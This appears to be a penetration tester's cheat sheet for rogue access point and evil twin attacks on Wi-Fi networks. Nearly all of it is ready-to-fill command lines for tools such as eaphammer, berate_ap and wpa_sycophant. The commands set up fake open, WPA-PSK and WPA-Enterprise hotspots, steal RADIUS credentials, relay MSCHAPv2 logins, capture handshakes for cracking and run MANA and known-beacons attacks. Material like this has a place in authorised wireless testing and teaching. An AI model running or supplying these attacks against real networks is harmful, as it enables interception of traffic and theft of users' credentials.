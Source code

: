 # Rogue AP / Evil Twin  
##	Basic Open Hotspot  
		berate_ap <interface_AP> <interface_internet> <SSID>  
##	Open Network Evil Twin  
		airgeddon.sh  
		fluxion.sh  
		wifipumpkin3  
		eaphammer -i wlan0 --channel <channel_number> --auth open --essid <SSID>  
##	WPA/WPA2-Personal Evil Twin  
		WPA Passphrase Known  
			eaphammer -i wlan0 --channel <channel_number> --auth wpa-psk --essid <SSID> --wpa-passphrase <passphrase>  
		WPA Passphrase Unknown  
			Spawn Open Network Evil Twin instead to attack clients (e.g. Phishing attack to retrieve Passphrase)  
			Capture WPA (half) Handshake of connecting clients & Cracking  
				eaphammer -i wlan0 --channel <channel_number> --auth wpa-psk --essid <SSID> --wpa-passphrase randompassphrase --capture-wpa-handhshake  
##	WPA/WPA2-Enterprise Evil Twin  
		RADIUS Credentials Unknown  
			RADIUS Credentials Stealing  
				eaphammer --cert-wizard  
                eaphammer -i wlan0 --channel <channel_number> --auth wpa-eap --essid <SSID> --creds  
				Possible if:  
                    - EAP method does not use client-certificat for client authentication  
                    - Server certificate validation not enforced on client  
			EAP (MSCHAPv2) Relay  
				berate_ap --eap --mana-wpe --wpa-sycophant --mana-credout <file_captured_creds> <interface_AP> <interface_internet> <SSID>  
                wpa_sycophant.sh -c wpa_sycophant_example.conf -i <interface>  
				Possible if:  
                    - Target network uses EAP method with MSCHAPv2 for client authentication  
                    - Server certificate validation not enforced on client  
		RADIUS Credentials Known  
			ehdb --add --identity <username> --password <password> # Add credentials in db  
            ehdb --add --identity <username> --nt-hash <ntlm_hash>  # Add creds with NTLM hash in db  
            eaphammer -i wlan0 --channel <channel_number> --auth wpa-eap  --essid <SSID_corporate_wifi>  
	802.11 Network Selection Algorithms Abuse (for Open Network)  
		KARMA Attack (outdated)  
			By default with wifiphisher  
		MANA Attack (KARMA improvement)  
			Add --mana option in eaphammer command  
		Loud MANA (MANA Improvement)  
			Add --mana --loud in eaphammer command  
		Known Beacons Attack  
			Add --mana --knwon-beacons in eaphammer command  
			Abuse clients' passive scanning  
